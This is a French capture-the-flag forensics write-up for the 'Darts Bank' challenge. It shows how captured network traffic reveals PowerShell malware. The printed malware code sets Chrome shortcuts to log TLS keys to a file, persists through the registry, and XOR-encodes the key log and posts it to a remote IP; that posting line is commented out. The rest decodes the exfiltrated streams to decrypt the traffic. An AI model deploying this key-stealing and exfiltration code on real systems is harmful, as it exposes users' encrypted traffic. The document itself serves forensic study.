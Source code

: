 # Darts Bank

## Disclaimer
```
Attention : ce challenge contient du code à portée malveillante. Bien que l'auteur se soit efforcé de le rendre relativement inoffensif, il convient de prendre les mesures d'isolation adéquates s'il devait être exécuté. L'organisation décline toute responsabilité en cas de dommages à votre système.
```

## Speech
```
Je me dirigeais vers l'épreuve de lancer de fléchettes quand j'ai fait une découverte horrifiante : on m'a dérobé ma fléchette porte-bonheur ! Pourtant, cette dernière était bien sécurisée grâce à ma banque à fléchettes, DartsBank, et cette dernière a toutes les protections qui s'imposent... Même le petit cadenas vert ! Je crois avoir remarqué des choses étranges sur le réseau, vous pouvez y jeter un œil ?
```
## Author
@Smyler

## MD5
dart.pcapng = a5d6bb16aaebbaae69de51ba653aa358

## Analysis
### First stage
1. Open the pcap in Wireshark
![Packets analysis](./img/00_packet_hierarchy.png)
2. Lots of TCP/HTTP, follow the TCP stream :
![powershell malware](./img/01_found_something.png)
3. Copy/paste in a new file (*powershell.mal*)
4. I try to deob
    - First look for semicolon and add new line after each ";" we finish with 5 line :
        - the first one is a base64 command, let's decode : `foreach($bbbbbbbbbbbb in Get-ChildItem -Recurse -Path C:\Users -ErrorAction SilentlyContinue -Include *.lnk){$bbbbbbbbbbbbbbb=New-Object -COM WScript.Shell;$bbbbbbbbbbbbbbbb=$bbbbbbbbbbbbbbb.CreateShortcut($bbbbbbbbbbbb);if($bbbbbbbbbbbbbbbb.TargetPath -match 'chrome\.exe$'){$bbbbbbbbbbbbbbbb.Arguments="--ssl-key-log-file=$env:TEMP\defender-res.txt";$bbbbbbbbbbbbbbbb.Save();}}` Looks like is doing something with the link of chrome.exe
        - the second is a variable with very long base64 string (see the next point)
        - the third execute another base64 command : `Start-Process -WindowStyle Maximized https://hello.smyler.net` Nice one Smyler :)
        - on the fourth the very long base64 is written to run.ps1 
        - the last one put the run.ps1 in the registry
    - I decode run.ps1
### Second stage
5. run.ps1 seems to be a bit hard to decode, so let's fire up windows
![run.ps1](./img/02_run_ps1.png)
6. I modify top print things and not sleep. ERROR !! We need a file created by the first stage...
7. the *run.ps1* is sending encrypted data, after deob I get this, we need the file `$env:TEMP\defender-res.txt` which is created early (in the previous stage) via the option `--ssl-key-log-file`, this option allow to store the SSL key in a file :
```powershell
$line_numbner=0;
$path_defender="$env:TEMP\defender-res.txt";
$long_byte=[byte[]](215,194,241,[...],10,93,120);
while($true){
    $defender=Get-Item -Path $path_defender;
    $length_defender=$defender.Length;
    if($length_defender -gt $line_numbner){
        $handle_defender=[System.IO.File]::Open($path_defender,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
        $handle_defender.Seek($line_numbner,[System.IO.SeekOrigin]::Begin)|Out-Null;
        $byte_objetc=New-Object byte[] ($length_defender - $line_numbner);
        $handle_defender.read($byte_objetc,0,$length_defender - $line_numbner)|Out-Null;
        for($i=0;$i -lt $byte_objetc.count;$i++){
            $byte_objetc[$i]=$byte_objetc[$i] -bxor $long_byte[$i % $long_byte.count];
        }
        $data=[Convert]::ToBase64String($byte_objetc);
        # Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;
        Write-Output $data;
        $handle_defender.Close()|Out-Null;
    }
    $line_numbner=$length_defender;
    #Start-Sleep -Seconds 5;
}
```
8. The encrypted data sent by this script is the file containing the SSL key, the script take the file, xor each byte of the file with the *$long_byte* and send it.
9. In wireshark we can see some TCP stream containing Base64 (stream 26, 29, 36, 40, 47, 51, 57, 67, 71), extract these streams in a file (*all_base64*)
10. Write a script to decode :
```python
import base64

# Define your long_byte variable
long_byte = [215,194,241,104,227,144,...]

# Define your base64 string
base64_string = "base64 here"

# Decode the base64 string to get bytes
base64_bytes = base64.b64decode(base64_string)

decoded_bytes = []
# Perform XOR operation
for i in range(len(base64_bytes)):
    decoded_bytes.append(base64_bytes[i] ^ long_byte[i % len(long_byte)])

# Convert bytes to characters
decoded_text = ''.join(chr(byte) for byte in decoded_bytes)

# Print the result
print(decoded_text)
```
11. After decoding each base64 blob I have the file of SSL key (*ssl_key_logs*) which I can load in wireshark in order to decode the TLS communication
12. It's not looking decoded but if we go in *File>Export Objects>HTTP* we have a lot more object than before ! And we have file from the Hostname *dartsbank.challenges.404ctf.fr*, let's extract them
13. We find the flag in the index :)

## Little bonus
1. To understand the script run.ps1 I did the following :
2. Use this ressources : https://my.f5.com/manage/s/article/K50557518 to understand and store my SSL in a file on my desktop
3. modify the code like that :
```powershell
$line_numbner=0;
$path_defender="C:\Users\Flamethrower\Desktop\defender-res.txt";
$long_byte=[byte[]](215,[...],120);
while($true){
    $defender=Get-Item -Path $path_defender;
    $length_defender=$defender.Length;
    if($length_defender -gt $line_numbner){
        $handle_defender=[System.IO.File]::Open($path_defender,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
        $handle_defender.Seek($line_numbner,[System.IO.SeekOrigin]::Begin)|Out-Null;
        $byte_object=New-Object byte[] ($length_defender - $line_numbner);
        $handle_defender.read($byte_object,0,$length_defender - $line_numbner)|Out-Null;
        #for($i=0;$i -lt $byte_object.count;$i++){
        #    $byte_object[$i]=$byte_object[$i] -bxor $long_byte[$i % $long_byte.count];
        #}
        $data=[Convert]::ToBase64String($byte_object);
        # Invoke-WebRequest -Uri http://127.0.0.1:8000 -Method GET -ContentType "application/json" -Headers @{"d"=$data}|Out-Null;
        Write-Output $data;
        $handle_defender.Close()|Out-Null;
    }
    $line_numbner=$length_defender;
    #Start-Sleep -Seconds 5;
}
```
4. Like that I print the data sent which give me things like that :
```
Q0xJRU5UX1RSQUZGSUNfU0VDUkVUXzAgNjU2YTExMTkzMmIyMWQxZWY4YWU5YTMyODNiMjJmYzYzOGMwMDU0NzVhNzE2MDRmMTM0MTliY2IzMzI2YzM1YiBlNWI2NGU1YjI4NDdiM2ZjNjAwZWFmM2JkM2QyNzcxMTFjODU4ZWJjMTA3N2Y2OWQxMWUxNmRhY2JiZjkzZTY2DQpTRVJ
WRVJfVFJBRkZJQ19TRUNSRVRfMCA2NTZhMTExOTMyYjIxZDFlZjhhZTlhMzI4M2IyMmZjNjM4YzAwNTQ3NWE3MTYwNGYxMzQxOWJjYjMzMjZjMzViIDk0NDFhOGE3OWY4ZGU1YzNmZTE2ZmMyMjk5ZDdjNDUyNmRhOWUzNzNjMjBiNmMwNTI5MWZkODVlZjI5ZTg4YzQNCkVYUE9SVE
VSX1NFQ1JFVCA2NTZhMTExOTMyYjIxZDFlZjhhZTlhMzI4M2IyMmZjNjM4YzAwNTQ3NWE3MTYwNGYxMzQxOWJjYjMzMjZjMzViIGQzYzI3YjhkOGU1OTM4NGM4ZGExZDAwZTY0Njk2YjU2NTE4OGVhYThjOTlkZjFlMTYzOWM3NzRiNTkxYTRkMzgNCg==
```
5. And base64 decoding give me :
```
CLIENT_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b e5b64e5b2847b3fc600eaf3bd3d277111c858ebc1077f69d11e16dacbbf93e66
SERVER_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b 9441a8a79f8de5c3fe16fc2299d7c4526da9e373c20b6c05291fd85ef29e88c4
EXPORTER_SECRET 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b d3c27b8d8e59384c8da1d00e64696b565188eaa8c99df1e1639c774b591a4d38
```
6. And if I look at my file, i can find that :
```
CLIENT_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b e5b64e5b2847b3fc600eaf3bd3d277111c858ebc1077f69d11e16dacbbf93e66
SERVER_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b 9441a8a79f8de5c3fe16fc2299d7c4526da9e373c20b6c05291fd85ef29e88c4
EXPORTER_SECRET 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b d3c27b8d8e59384c8da1d00e64696b565188eaa8c99df1e1639c774b591a4d38
```